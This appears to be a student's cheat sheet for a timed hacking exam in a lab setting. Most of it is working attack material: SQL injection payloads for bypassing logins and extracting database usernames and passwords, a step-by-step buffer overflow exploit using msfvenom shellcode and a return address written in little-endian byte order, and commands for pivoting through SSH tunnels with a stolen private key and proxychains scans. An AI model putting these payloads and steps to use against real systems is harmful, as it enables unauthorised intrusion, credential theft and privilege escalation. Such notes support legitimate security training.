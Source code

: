 Test priority:
2 parts: 3 hours each.
SQL.
Part 1 closes out after 3 hours.
part 1: basic website
directory traversal
manipulation
command injection
ssh key masquerade
FUCKS EVERYONE:
calm down, read full question.

85% of it is linux based.

NOTES:
--------------------------------
####AUTHENTICATION BYPASS#####
'OR 1='1   $truth statement in username and password
Go to inspect > network (login so you get the post) > post > request > raw (radio button) > paste ?THERAWSTRING into google
x.x.x.x/login.php?username='OR 1='1&password=OR 1='1    ####put a ? after the php, and then paste the RAWSTRING directory after it.
x.x.x.x/login.php?username=%27OR+1%3D%271&passwd=%27OR+1%3D%271   ###Example of what it should look like

######SQL INJECTION QUIERES######
#1 Identify the vulnerable field
'OR 1='1 # Put it in the field or in the url after .php?Selection=1
#2 Identify number of columns
'Union SELECT 1,2,3 #  #might need to add other symbols to break query
#3 Use golden statement
UNION SELECT table_schema,table_name,column_name FROM information_schema.columns
Audi'UNION SELECT table_schema,2,table_name,column_name,5 FROM information_schema.columns
#4 Craft Queries
Audi'UNION SELECT username,2,passwd,4,5 FROM session.userinfo #
## GET METHOD
#1 Identify the vulnerable field
Use the URL after submitting, take out the quest and after Selection=1 or 1=1
#2 Identify number of columns
Selection=4 Union Select 1,2,3
#3 Golden Statement
UNION SELECT table_schema,table_name,column_name FROM information_schema.columns
#4 Craft Queries is the Same
# See Databases
Audi'UNION SELECT table_schema,2,3,4,5 FROM information_schema.columns

######FIND A FILE TO EXPLOIT, RUN AGAINST IT FOR BUFFER OVERFLOW#######
Run sudo -L,
This gives you a file that you can have sudo privelages to run commands through.
/var/tmp/exploitme
Find if the file needs parameters or text input.
./var/tmp/exploitme <<<$(echo "asdasdasd")  ##Accepts text input
./var/tmp/exploitme $(echo "asdasdasd") ##Accepts parameters
Your syntax for running your script against the file will be 
gdb ./exploitme -> run $(python pbuff.py) or gdb ./exploitme -> run <<<$(python pbuff.py)
Your python file will look like: ##########
vim lynnbuff.py
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
print(offset)
#############
firefox on linux workstation -> wiremask.eu -> tools -> buffer overflow pattern generator.
Copy the Hex given, use that HEX to find the offset (Register Value), use that offset to find the actual offset.
After finding the offset, put amount of characters in your offset and recreate script to ensure its working:
####
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
eip = "BBBB"
print(offset+eip)
#####
your eip should be 42424242. From here you do:
gdb ./exploitme -> show env -> unset env COLUMNS -> unset env LINES -> show env -> run $(python pbuff.py) -> info proc map -> find /b (START HEX AFTER HEAP),(END HEX BEFORE STACK),
0xff, 0xe4.
The output given take first 5 lines, make your eip your first little endian. "0xf7de3b59 -> \x59\x3b\xde\xf7"
Go to your pc, and make an msfvenom to create your buf:
msfvenom -p linux/x86/exec CMD=whoami -b '\x00' -f python
Final script: ####################
####
#!/usr/bin/env python

offset = "wijejnsoifoosmkefmsks"
eip = "\x59\x3b\xde\xf7"
nop = "\x90" * 15
buf = 
print(offset+eip+nop+buf)

'''
HEX1 -> Little Endian (from the back) 
HEX2
HEX3
HEX4
HEX5
msfvenom -p linux/x86/exec CMD=whoami -b '\x00' -f python
'''
#####
###########SSH MASQUERADE#############
For dumb S WORD !!!!!!!! <!> <!> <!> ############################################################################################################################################
scp HACKER@HACKERIP:FILEPATHTOSSHKEY ME:MYFILEPATH -P ENEMYPORT
tar -xvf /home/student/stolenkey1 -C /home/student/stolenkey1_gun
ssh -MS /tmp/jmp student@10.50.11.224 -L 41010:192.168.28.100:2222
ssh www-data@localhost -p 41010 -D 9050 
proxychains nmap -T5 -Pn 192.168.150.253 -p 0-65535 2>/dev/null
chmod 600 /home/student/stolenkey1_gun/.ssh/id_rsa.pub
ssh -i /home/student/stolenkey1_gun/.ssh/id_rsa Comrade@192.168.150.253 -p 41011
ssh -MS /tmp/jmp student@10.50.11.224 -L 41010:192.168.28.100:2222 -L 41011:192.168.150.253:3201

#########
